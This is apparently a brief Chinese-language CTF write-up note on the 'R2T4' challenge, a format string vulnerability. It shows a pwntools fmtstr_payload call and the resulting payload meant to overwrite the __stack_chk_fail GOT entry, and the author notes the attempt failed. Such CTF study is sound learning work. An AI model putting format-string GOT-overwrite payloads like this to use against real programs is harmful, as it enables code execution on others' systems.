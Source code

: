 # R2T4

一个格式化字符串洞

![bX4DwI](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/bX4DwI.png)

格式化字符串忘的差不多了

一开始想改栈的值，似乎不太方便。

可以考虑改`0000000000601018 R_X86_64_JUMP_SLOT  __stack_chk_fail@GLIBC_2.4`的got表

```python
>>> fmtstr_payload(6, {0x601018:0x400626})
'\x18\x10`\x00\x19\x10`\x00\x1a\x10`\x00\x1b\x10`\x00%22c%6$hhn%224c%7$hhn%58c%8$hhn%192c%9$hhn'
```

不过没改成功。。。